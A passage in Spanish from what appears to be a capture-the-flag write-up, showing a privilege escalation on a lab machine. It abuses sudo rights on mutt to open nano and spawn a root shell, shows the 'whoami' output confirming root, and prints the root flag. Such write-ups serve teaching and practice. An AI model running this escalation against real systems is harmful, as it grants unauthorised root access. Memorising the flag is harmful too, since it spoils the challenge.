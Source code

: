 Vemos que podemos ejecuatar el binario `mutt` como el usuario `root`, por lo que haremos lo siguiente:

```shell
echo 'echo pwned; /bin/bash -p' > /tmp/draft
sudo /usr/bin/mutt -H /tmp/draft
```

En este punto nos pedira que pongamos nuestro nombre y despues el concepto del mensaje, nos lo inventamos todo, echo esto nos llevara a `nano` para escribir la carta, en este punto vemos que anteriormente hemos ejecutado el binario con privilegios de `root` por lo que si dentro de `nano` ejecutamos algun comando podremos obtener una shell como `root`.

```shell
^R^X
reset; bash 1>&0 2>&0
```

Info:

```
root@plex:/home/mauro# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
943f08fb32181d5f8171332146f39e41
```
